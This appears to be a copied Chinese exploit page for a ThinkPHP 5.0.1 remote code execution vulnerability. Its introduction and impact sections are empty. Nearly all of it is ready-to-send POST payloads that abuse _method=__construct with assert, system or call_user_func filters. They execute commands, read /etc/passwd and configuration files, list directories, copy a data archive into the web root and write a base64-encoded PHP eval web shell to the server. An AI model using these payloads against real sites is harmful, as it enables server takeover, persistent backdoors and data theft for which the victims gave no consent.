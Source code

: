 # Thinkphp 5.0.1

> 原文：[http://book.iwonder.run/0day/Thinkphp/2.html](http://book.iwonder.run/0day/Thinkphp/2.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 1、判断是否存在漏洞

#### poc1

```
http://wwww.com/public

s=phpinfo()&_method=__construct&filter=assert
_method=__construct&method=get&filter[]=call_user_func&server[]=phpinfo&get[]=phpinfo
_method=__construct&method=get&filter[]=call_user_func&get[]=phpinfo
_method=__construct&method=get&filter[]=call_user_func&get[0]=phpinfo&get[1]=1 
```

#### poc2

```
http:/xxxx.com/?s=index/index/index

s=ipconfig&_mehthod=__construct$method=&filter[]=system 
```

### 2、深入利用

使用 post 提交

#### 1、使用 assert 函数

```
s=phpinfo()&_method=__construct&filter=assert 
```

#### 2、include 函数，可以根据此函数查看一些文件及其配置

```
s=include("/etc/passwd")&_method=__construct&filter=assert 
```

#### 3、file_put_contents 函数，可以直接写入文件

```
s=file_put_contents('/data/wwwroot/www.0-sec.org/application/index/test.php',base64_decode('PD9waHAgJHBhc3M9JF9QT1NUWydhYWFhJ107ZXZhbCgkcGFzcyk7Pz4'))&_method=__construct&filter=assert 
```

#### 4、读取文件

```
_method=__construct&method=get&filter[]=think\__include_file&server[]=phpinfo&get[]=../application/.htaccess 
```

```
s=include("../application/.htaccess")&_method=__construct&filter=assert

//ps:如果不加.. 请加上完整路径 
```

#### 5、var_dump 函数，可以查看该路径下的文件，文件夹

```
s=var_dump(scandir('../application/'))&_method=__construct&filter=assert 
```

#### 6、复制文件

```
s=copy("/data/wwwroot/data.tar", "/data/wwwroot/www.0-sec.org/public/data.tar")&_method=__construct&filter=assert 
```

